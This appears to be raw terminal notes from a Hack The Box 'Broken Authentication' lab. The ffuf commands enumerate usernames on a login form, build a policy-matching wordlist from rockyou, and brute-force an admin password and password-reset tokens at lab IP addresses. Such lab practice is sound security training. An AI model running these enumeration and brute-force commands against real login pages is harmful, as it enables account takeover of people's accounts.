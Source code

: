 # HTB_Broken_Authentication

[✗]─[user@parrot]─[~/Downloads]
└──╼ $ffuf -w xato-net-10-million-usernames.txt -u http://94.237.56.64:35816/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
─[✗]─[user@parrot]─[/usr/share/wordlists]
└──╼ $sudo su
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
grep: rockyou.txt: binary file matches
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #wc -l custom_wordlist.txt
151647 custom_wordlist.txt
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #ffuf -w ./custom_wordlist.txt -u http://94.237.121.100:47395/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
──╼ $ffuf -w ./tokens.txt -u http://94.237.60.219:39636/reset_password.php?token=FUZZ -fr "The provided token is invalid"

